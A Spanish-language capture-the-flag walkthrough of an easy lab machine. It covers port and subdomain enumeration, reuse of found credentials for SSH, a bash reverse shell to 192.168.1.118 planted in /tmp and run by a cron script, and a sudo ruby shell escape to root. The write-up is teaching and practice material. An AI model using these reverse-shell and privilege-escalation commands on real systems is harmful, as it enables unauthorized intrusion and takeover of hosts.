




**Autor**: MrMidnight  
**Dificultad**: Fácil


## Reconocimiento

Inicio la enumeración utilizando la herramienta **nmap** para descubrir los puertos abiertos en la máquina víctima. En este caso, se realiza un análisis simple que verifica todos los puertos TCP.

```
h3rshel@kali:~/Desktop$ sudo nmap 192.168.1.129 -p-   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-22 11:12 CET
Nmap scan report for 192.168.1.129
Host is up (0.00011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Como se puede observar, los puertos 22 (SSH) y 80 (HTTP) están abiertos.

### Puerto 80

En la imagen siguiente, observamos la página web principal alojada en el servidor HTTP. Como se aprecia, la página se encuentra en construcción y además nos proporciona un nombre de dominio.



Agrego el nombre de dominio al archivo /etc/hosts para asociarlo con la dirección IP de la máquina. Posteriormente, empleo la herramienta **ffuf** para llevar a cabo un ataque de fuerza bruta en la búsqueda de subdominios.

```
h3rshel@kali:~/Desktop$ ffuf -u http://midnight.coffee -H "Host: FUZZ.midnight.coffee" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 1690

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://midnight.coffee
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.midnight.coffee
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1690
________________________________________________

dev                     [Status: 200, Size: 1738, Words: 575, Lines: 72, Duration: 77ms]
```

Existe el subdominio **dev**. Ahora, lo agrego al archivo /etc/hosts y procedo a navegar para examinar su contenido.



Hemos obtenido credenciales.

Regresando al dominio principal, empleo **gobuster** para buscar archivos y subdirectorios en el servidor.

```
h3rshel@kali:~/Desktop$ gobuster dir -u "http://midnight.coffee/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x html,php,txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://midnight.coffee/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 280]
/index.html           (Status: 200) [Size: 1690]
/.html                (Status: 403) [Size: 280]
/shop                 (Status: 301) [Size: 317] [--> http://midnight.coffee/shop/]
```

Dentro del subdirectorio **/shop**, se observa una pestaña de **Login**. Utilizaremos las credenciales obtenidas anteriormente en el subdominio para acceder.



Después de iniciar sesión, obtenemos nuevas credenciales, las cuales emplearemos para acceder a la máquina víctima mediante SSH.



Hemos iniciado sesión con éxito y ahora procedemos con la escalada de privilegios.

```
h3rshel@kali:~/Desktop$ ssh tuna@midnight.coffee
tuna@midnight.coffee's password: 
[...]
tuna@coffee-shop:~$ :)
```

## Escalado de privilegios

Dentro de la máquina víctima, descargamos **pspy64** para visualizar tareas cron que se ejecuten periódicamente.

```
[...]
2024/01/22 10:39:08 CMD: UID=0     PID=3      | 
2024/01/22 10:39:08 CMD: UID=0     PID=2      | 
2024/01/22 10:39:08 CMD: UID=0     PID=1      | /sbin/init 
2024/01/22 10:40:01 CMD: UID=0     PID=1898   | /usr/sbin/CRON -f -P 
2024/01/22 10:40:01 CMD: UID=0     PID=1901   | /usr/sbin/CRON -f -P 
2024/01/22 10:40:01 CMD: UID=1001  PID=1902   | /bin/bash /home/shopadmin/execute.sh 
2024/01/22 10:40:01 CMD: UID=1001  PID=1903   | /bin/bash /home/shopadmin/execute.sh 
[...]
```

pspy64 revela la ejecución de un script en /home/shopadmin a través de una tarea cron asociada al usuario shopadmin. Este descubrimiento destaca una posible vía para la escalada de privilegios.

Aunque no se puede cambiar directamente al directorio home de shopadmin, podemos leer el archivo directamente utilizando el comando cat para visualizar su contenido.

```
tuna@coffee-shop:~$ cat /home/shopadmin/execute.sh
#!/bin/bash

/bin/bash /tmp/*.sh
```

Este script ejecuta todos los archivos con extensión .sh dentro del directorio /tmp. Este comportamiento podría presentar una oportunidad para la escalada de privilegios, ya que podríamos manipular la ejecución de scripts en ese directorio para obtener mayores privilegios en el sistema.

```
tuna@coffee-shop:/tmp$ cat shell.sh 
bash -i >& /dev/tcp/192.168.1.118/1234 0>&1
```

En el directorio **/tmp**, he creado un script llamado **shell.sh** que ejecuta un reverse shell hacia tu máquina Kali. Esto permitirá obtener acceso como el usuario que ejecute dicho script, abriendo así la posibilidad de realizar acciones con los privilegios asociados a ese usuario en la máquina víctima.

```
h3rshel@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.118] from (UNKNOWN) [192.168.1.129] 50130
bash: cannot set terminal process group (1937): Inappropriate ioctl for device
bash: no job control in this shell
shopadmin@coffee-shop:~$ 
```

Bingo!! Ahora tengo acceso como el usuario **shopadmin**.

### Root

Al ejecutar el comando sudo -l comprobamos que tenemos permisos para ejecutar un comando como el usuario root.

```
shopadmin@coffee-shop:~$ sudo -l
Matching Defaults entries for shopadmin on coffee-shop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User shopadmin may run the following commands on coffee-shop:
    (root) NOPASSWD: /usr/bin/ruby * /opt/shop.rb
```

En [GTFO bins](https://gtfobins.github.io/gtfobins/ruby/#shell) veremos que el comando **ruby** nos permite obtener una shell de la siguiente manera.

```
shopadmin@coffee-shop:~$ sudo /usr/bin/ruby -e 'exec "/bin/sh"' /opt/shop.rb
$ script -qc /bin/bash /dev/null
root@coffee-shop:/home/shopadmin# id
uid=0(root) gid=0(root) groups=0(root)
root@coffee-shop:/home/shopadmin# :)
```

Y de esta forma la máquina ya estaría resuelta.

Muchas gracias a **MrMidnight** por esta máquina.